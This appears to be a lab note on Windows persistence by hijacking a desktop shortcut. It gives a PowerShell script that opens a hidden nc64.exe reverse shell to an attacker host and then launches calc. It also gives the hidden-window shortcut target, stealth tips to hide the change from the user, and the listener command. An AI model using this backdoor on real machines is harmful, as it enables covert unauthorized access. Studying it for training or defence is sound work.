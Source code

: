 If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:
	![[Pasted image 20240910022812.png]]

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe {ATTACKER_IP} {port.number}"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```
![[Pasted image 20240910022927.png]]

Start an nc listener to receive our reverse shell on our attacker's machine:

```
user@AttackBox$ nc -lvp {port.number}
```
